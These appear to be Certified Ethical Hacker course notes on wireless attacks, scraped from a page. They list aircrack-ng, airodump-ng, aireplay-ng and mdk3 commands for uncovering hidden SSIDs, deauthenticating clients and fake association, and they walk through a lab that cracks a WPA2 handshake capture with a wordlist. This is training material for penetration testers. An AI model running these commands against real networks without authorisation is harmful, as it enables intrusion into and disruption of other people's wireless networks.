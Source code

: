 


| functions                                                                                  | commands                                                           |
| ------------------------------------------------------------------------------------------ | ------------------------------------------------------------------ |
| ``# 1 Detection of Hidden SSIDs ``                                                         |                                                                    |
| to make wifi card to monitor mode                                                          | ``airmon-ng start <interfacename>``                                |
| to discover SSIDs on the interface                                                         | ``airodump-ng <i>``                                                |
| to brute force and retrieve the actual hidden SSID                                         | ``mdk3 <i> p -b 1 -c <Channel> -t <Target BSSID>``                 |
| Captures only WEP IVs on ``<i>`` in monitor mode and saves them as capture files.          | ``airodump-ng --ivs --write capture <i>``                          |
| to performs a Wi-Fi De-authenticate attack:                                                | ``aireplay-ng -0 5 -a BSSID``                                      |
| Associate the wireless card (fake association) with the AP to be accessed with aireplay-ng | ``aireplay-ng -1 0 -e SECRET_SSID -a BSSID -h MACadd of card <i>`` |




# Lab 1: Perform Wireless Traffic Analysis


## Task 1: Wi-Fi Packet Analysis using Wireshark

# Lab 2: Perform Wireless Attacks
## Task 1: Crack a WPA2 Network using Aircrack-ng
- open parrot 
1. in Desktop ->  **CEHv13 Module 16** -> copy samples and wordlist to Desktop
2. open terminal as sudo user 
3. perform password cracking 
	- command 
		- ``aircrack-ng -a2 -b [Target BSSID] -w /home/attacker/Desktop/Wordlist/password.txt '/home/attacker/Desktop/Sample Captures/WPA2crack-01.cap'``
4. The result appears, showing the WPA handshake packet captured with airodump-ng. The target access point's password is cracked and displayed in plain text next to the message **KEY FOUND!**








### References
